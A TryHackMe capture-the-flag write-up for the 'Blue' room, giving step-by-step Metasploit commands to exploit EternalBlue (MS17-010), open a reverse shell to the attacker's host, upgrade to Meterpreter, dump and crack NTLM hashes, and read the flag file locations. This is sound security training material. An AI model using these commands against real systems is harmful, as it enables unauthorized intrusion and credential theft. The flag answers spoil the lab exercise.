








# TryHackMe - Blue (EternalBlue) Write-up

**Room**: [Blue](https://tryhackme.com/room/blue)  
**Difficulty**: Easy  
**OS**: Windows  
**Tags**: EternalBlue, MS17-010, Metasploit, Privilege Escalation, Hash Cracking  

---

## Overview

This write-up covers the complete exploitation of the **Blue** room on TryHackMe.  
The target is vulnerable to the EternalBlue (MS17-010) vulnerability, which allows us to gain an initial shell, escalate to Meterpreter, dump credentials, and retrieve all three flags.

---

## 1. Reconnaissance

### Connect to the TryHackMe Network

1. Go to your TryHackMe profile → **Access**.
2. Download the OpenVPN configuration file.
3. Connect using:

```bash
sudo openvpn <your-config-file>.ovpn
```

### Nmap Scan

```bash
nmap -sC -sV -Pn <TARGET_IP>
```

**Results**: Three open ports were identified. The machine is vulnerable to **MS17-010** (EternalBlue).

> 

### Confirming the Vulnerability

In Metasploit:

```bash
msfconsole
search eternalblue
```

The relevant module is `exploit/windows/smb/ms17_010_eternalblue`.

> 

---

## 2. Initial Access

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <TARGET_IP>
set LHOST <YOUR_IP>
set payload windows/x64/shell/reverse_tcp
run
```

A successful exploitation gives us a low-privilege shell.

> 

---

## 3. Privilege Escalation (Shell → Meterpreter)

Background the current session:

```bash
background
```

Upgrade the shell to Meterpreter:

```bash
search shell_to_meterpreter
use 0
set SESSION <session_id>
set LHOST <YOUR_IP>
run
```

Interact with the new Meterpreter session:

```bash
sessions -i <new_session_id>
```

Useful Meterpreter commands:

```bash
ps                          # List processes
migrate <target_pid>        # Migrate to a more stable process
```

> 

---

## 4. Credential Dumping & Cracking

Dump the SAM hashes:

```bash
hashdump
```

We obtain the NTLM hash for the non-default user **Jon**.

Save the hash to a file and crack it with John the Ripper:

```bash
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt jon.hash
```

> 

---

## 5. Flag Locations

| Flag | Location                                      | Command                          |
|------|-----------------------------------------------|----------------------------------|
| Flag 1 | `C:\flag1.txt`                               | `cat C:\\flag1.txt`             |
| Flag 2 | `C:\Windows\System32\config\flag2.txt`       | `cat C:\\Windows\\System32\\config\\flag2.txt` |
| Flag 3 | `C:\Users\jon\Documents\flag3.txt`           | `cat C:\\Users\\jon\\Documents\\flag3.txt` |

>   
>   
> 

---

## Conclusion

The Blue room is an excellent introduction to the EternalBlue vulnerability and the Metasploit framework. Key takeaways:

- Always enumerate thoroughly with Nmap.
- EternalBlue (MS17-010) remains highly relevant for older Windows systems.
- Upgrading a basic shell to Meterpreter significantly improves post-exploitation capabilities.
- Credential dumping + offline cracking is a common path to higher privileges / lateral movement.

Happy Hacking!

---

**Author**: Kumar Palanivelu  
**Date**: August 2026   
